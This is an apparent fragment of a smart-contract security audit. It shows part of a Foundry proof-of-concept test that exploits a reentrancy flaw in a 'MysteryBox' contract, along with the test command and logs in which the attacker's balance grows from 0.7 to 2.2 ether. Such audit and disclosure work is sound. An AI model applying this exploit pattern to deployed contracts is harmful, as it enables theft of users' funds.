 ```javascript
        mysteryBox.buyBox{value: 0.1 ether}();
        mysteryBox.buyBox{value: 0.1 ether}();
        console.log("Bought 3 boxes");

        mysteryBox.openBox();
        mysteryBox.openBox();
        mysteryBox.openBox();
        console.log("Opened 3 boxes");

        // Display the rewards for the attacker
        MysteryBox.Reward[] memory rewards = mysteryBox.getRewards();
        for (uint256 i = 0; i < rewards.length; i++) {
            console.log("Reward %d: %s, Value: %d", i, rewards[i].name, rewards[i].value);
        }

        uint256 initialBalance = address(attacker).balance;
        console.log("Initial Balance of Attacker: %d", initialBalance);

        // Attempt to claim all rewards
        try mysteryBox.claimAllRewards() {
            console.log("claimAllRewards executed successfully");
        } catch (bytes memory reason) {
            console.log("claimAllRewards failed with reason: %s", string(reason));
        }

        uint256 finalBalance = address(attacker).balance;
        console.log("Final Balance of Attacker: %d", finalBalance);

        assert(finalBalance > initialBalance);

        vm.stopPrank();
    }
}

```

* Run test: `forge test --match-contract ReentrancyExploit -vvv`

The following logs were captured during the execution of the test:

```javascript
ought 3 boxes
Opened 3 boxes
Reward 0: Silver Coin, Value: 500000000000000000
Reward 1: Silver Coin, Value: 500000000000000000
Reward 2: Silver Coin, Value: 500000000000000000
Initial Balance of Attacker: 700000000000000000
claimAllRewards executed successfully
Final Balance of Attacker: 2200000000000000000
```

Exploit Output Explanation:
Rewards Information:
